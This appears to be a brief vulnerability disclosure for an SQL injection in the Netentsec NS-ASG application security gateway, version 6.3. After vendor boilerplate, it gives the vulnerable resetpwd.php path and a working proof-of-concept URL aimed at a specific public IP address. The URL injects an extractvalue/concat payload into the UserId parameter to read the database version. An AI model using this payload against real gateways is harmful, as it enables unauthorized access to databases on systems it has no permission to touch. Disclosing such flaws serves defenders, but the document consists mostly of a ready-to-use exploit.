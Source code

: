 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /vpnweb/resetpwd/resetpwd.php

[https://1.85.53.53/vpnweb/resetpwd/resetpwd.php](https://1.85.53.53/vpnweb/resetpwd/resetpwd.php?action=update&UserId=extractvalue(0x1,%20concat(0x1,%20(select%20@@version))))https://1.85.53.53/vpnweb/resetpwd/resetpwd.php?action=update&UserId=extractvalue(0x1,%20concat(0x1,%20(select%20@@version)))

<img width="618" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/587feaf4-46c0-4139-a6fa-c5542a68ca52">
